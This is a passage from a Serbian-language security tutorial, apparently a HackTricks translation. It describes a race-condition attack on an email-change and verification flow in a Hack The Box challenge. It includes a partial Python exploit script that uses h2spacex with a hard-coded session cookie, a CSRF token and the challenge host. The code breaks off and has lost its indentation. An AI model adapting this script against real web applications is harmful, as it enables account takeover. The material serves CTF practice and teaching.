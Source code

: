 * **Automatizovani Python skript**: Cilj ovog skripta je da promeni email korisnika dok kontinuirano proverava dok verifikacioni token novog emaila ne stigne na poslednji email (ovo je zato što je u kodu primećen RC gde je bilo moguće modifikovati email ali imati verifikaciju poslatu na stari email jer je promenljiva koja označava email već bila popunjena prvom).\
  Kada se reč "objetivo" pronađe u primljenim emailovima, znamo da smo primili verifikacioni token promenjenog emaila i završavamo napad.

```python
# https://portswigger.net/web-security/race-conditions/lab-race-conditions-limit-overrun
# Script from victor to solve a HTB challenge
from h2spacex import H2OnTlsConnection
from time import sleep
from h2spacex import h2_frames
import requests

cookie="session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiZXhwIjoxNzEwMzA0MDY1LCJhbnRpQ1NSRlRva2VuIjoiNDJhMDg4NzItNjEwYS00OTY1LTk1NTMtMjJkN2IzYWExODI3In0.I-N93zbVOGZXV_FQQ8hqDMUrGr05G-6IIZkyPwSiiDg"

# change these headers

headersObjetivo= """accept: */*
content-type: application/x-www-form-urlencoded
Cookie: """+cookie+"""
Content-Length: 112
"""

bodyObjetivo = 'email=objetivo%40apexsurvive.htb&username=estes&fullName=test&antiCSRFToken=42a08872-610a-4965-9553-22d7b3aa1827'

headersVerification= """Content-Length: 1
Cookie: """+cookie+"""
"""
CSRF="42a08872-610a-4965-9553-22d7b3aa1827"

host = "94.237.56.46"
puerto =39697


url = "https://"+host+":"+str(puerto)+"/email/"

response = requests.get(url, verify=False)


while "objetivo" not in response.text:

urlDeleteMails = "https://"+host+":"+str(puerto)+"/email/deleteall/"

responseDeleteMails = requests.get(urlDeleteMails, verify=False)
#print(response.text)
# change this host name to new generated one

Headers = { "Cookie" : cookie, "content-type": "application/x-www-form-urlencoded" }
data="email=test%40email.htb&username=estes&fullName=test&antiCSRFToken="+CSRF
urlReset="https://"+host+":"+str(puerto)+"/challenge/api/profile"
responseReset = requests.post(urlReset, data=data, headers=Headers, verify=False)

print(responseReset.status_code)

h2_conn = H2OnTlsConnection(
hostname=host,
port_number=puerto
)

```
